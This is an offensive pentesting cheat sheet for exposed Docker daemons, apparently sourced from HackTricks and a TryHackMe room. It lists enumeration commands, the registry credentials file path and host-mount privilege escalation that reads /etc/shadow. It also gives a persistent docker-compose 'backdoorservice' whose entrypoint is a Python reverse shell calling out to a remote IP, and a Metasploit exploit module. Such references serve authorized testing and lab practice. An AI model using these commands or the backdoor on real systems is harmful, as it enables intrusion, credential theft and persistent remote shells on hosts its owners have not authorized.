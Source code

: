# Docker

Default port: `2375/tcp` and `2376/tcp` over TLS

## Enumeration

### Nmap

```bash
nmap -sV --script "docker-*" -p 2375,2376 TARGET_IP
```

### Get version

Using curl

```bash
curl -s http://TARGET_IP:2375/version | jq
```

Using docker

```bash
docker -H TARGET_IP:2375 version
```

### Docker Credentials file

Credentials for a docker registry:

`/root/.docker/config.json`

## CLI - Basic commands

### Download container images

```bash
apt update
docker pull SOURCE:latest
```

### Run container image

```bash
docker run -it SOURCE:latest
```

### Download container image source

```bash
docker save -o image.tar SOURCE:latest
```

### Analyse container image

```bash
tar -xvf image.tar
cat manifest.json | jq
```

### Privilege escalation

```bash
docker run -it -v /:/host/ ubuntu:latest chroot /host/ bash
```

or

```bash
docker -H TARGET_IP:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
cat /mnt/etc/shadow
```

### Docker reverse shell

`nano docker-compose.yml`

```docker
version: "2.1"
services:
  backdoorservice:
    restart: always
    image: ghcr.io/jroo1053/ctfscore:master
    entrypoint: > 
       python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
       s.connect(("TARGET_IP",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
       pty.spawn("/bin/sh")'
    volumes:
      - /:/mnt
    privileged: true
```

Run the reverse shell:

`docker-compose up`

## Msf

```bash
use exploit/linux/http/docker_daemon_tcp
```

## Source

- <https://book.hacktricks.xyz/pentesting/2375-pentesting-docker#basic-commands>
- <https://tryhackme.com/room/idsevasion>
